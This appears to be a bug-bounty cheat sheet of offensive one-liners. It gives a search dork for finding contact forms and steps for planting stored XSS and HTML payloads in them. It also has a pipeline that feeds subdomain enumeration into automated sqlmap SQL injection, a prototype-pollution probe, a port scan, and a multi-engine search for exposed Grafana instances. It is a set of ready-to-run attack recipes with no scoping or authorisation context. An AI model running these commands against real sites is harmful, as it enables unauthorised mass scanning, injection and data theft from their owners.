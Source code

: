 # Tips 

------
### Easy Stored XSS & HTML Injection 

* Payload
```
site:target.com inurl:"contact" | inurl:"contact-us" | inurl:"contactus" | inurl:"contcat_us" | inurl:"contact_form" | inurl:"contact-form" 

```
* Fill the form with an HTML Payload in the First Name and with your XSSHunter Payload in Message and send the form

* Wait for a message in your mail with executed Html Payload or your XSSHunter alert for Stored XSS 

----


#### SQLi 

```
httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```
-----

#### ProtoType Pollution
```
subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
```
------

#### Naabu
```
naabu -l /disk/output/example.com/host.txt  -tp 1000 -sa | httpx -retries 4 -timeout 10 -title -ip

```
--------
[https://bugbountyguide.org/index.php/2022/11/26/8-best-recon-technique-for-active-subdomain-enumeration/](https://bugbountyguide.org/index.php/2022/11/26/8-best-recon-technique-for-active-subdomain-enumeration/)

```
uncover -shodan 'http.component:"Grafana"' -censys 'services.software.product=`Grafana`' -fofa 'app="Grafana"' -quake 'Grafana' -hunter 'Grafana' -zoomeye 'app:"Grafana"' -netlas 'Grafana'
``` 
